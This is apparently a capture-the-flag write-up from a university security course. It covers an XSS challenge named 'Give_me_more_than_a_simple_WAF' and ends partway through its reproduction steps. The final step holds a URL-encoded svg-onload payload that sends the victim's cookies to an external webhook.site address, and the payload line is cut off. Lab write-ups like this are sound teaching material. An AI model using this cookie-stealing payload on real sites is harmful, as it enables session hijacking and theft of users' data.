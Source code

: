 # Challenge `Give_me_more_than_a_simple_WAF` Writeup

- Vulnerability: Cross-Site Scripting (XSS)
  - Exploits a lack of input validation and sanitization, allowing the injection of malicious scripts into the webpage.
- Where: Comment Section
  - The vulnerability is present in the comment section of the webpage, where user input is not properly sanitized.
- Impact: Unauthorized Data Collection
  - Exploiting this vulnerability allows an attacker to inject a script that collects and sends the victim's cookies to an external site controlled by the attacker.
- NOTE: This is a serious security concern as it enables unauthorized data collection from users interacting with the comment section.

## Steps to Reproduce

1. Visit the vulnerable webpage: [http://mustard.stt.rnl.tecnico.ulisboa.pt:23252/)
2. Navigate to the comment section.
3. Insert the following payload in Link of the bug/feature request you want to report on.:
http://mustard.stt.rnl.tecnico.ulisboa.pt:23252/?search=%3Csvg/onload='fetch(%22https://webhook.site/3a9f1629-aa07-4da4-b8b1-890c4834ceaf?c=%22%2Bdocument.cooki

